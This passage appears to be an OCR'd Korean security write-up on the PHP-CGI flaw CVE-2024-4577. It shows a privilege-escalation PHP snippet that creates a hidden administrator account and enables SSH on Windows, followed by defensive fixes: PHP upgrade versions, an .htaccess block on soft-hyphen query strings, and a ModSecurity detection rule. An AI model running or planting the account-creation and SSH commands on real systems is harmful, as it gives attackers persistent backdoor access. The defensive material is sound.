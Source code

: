 ### 3. 권한 상승

```php
<?php
// 새로운 관리자 계정 생성 (Windows)
system('net user hacker P@ssw0rd123! /add');
system('net localgroup administrators hacker /add');

// SSH 활성화 (Windows Server)
system('powershell Add-WindowsCapability -Online -Name OpenSSH.Server');
system('powershell Start-Service sshd');
?>
```

---

## 🛡️ 방어 방법

### 1. 즉시 조치 (긴급)

```bash
# PHP 업그레이드
- PHP 8.3.8 이상
- PHP 8.2.20 이상
- PHP 8.1.29 이상
```

### 2. Apache 설정 변경

```apache
# .htaccess에 추가
<IfModule mod_rewrite.c>
    RewriteEngine On

    # Soft Hyphen(0xAD) 차단
    RewriteCond %{QUERY_STRING} %AD [NC,OR]
    RewriteCond %{QUERY_STRING} \xAD [NC]
    RewriteRule .* - [F,L]
</IfModule>
```

### 3. WAF 규칙

```
# ModSecurity 규칙
SecRule QUERY_STRING "@contains %ad" \
    "id:2024001,\
    phase:1,\
    deny,\
    status:403,\
    msg:'CVE-2024-4577 Attempt Detected'"
```
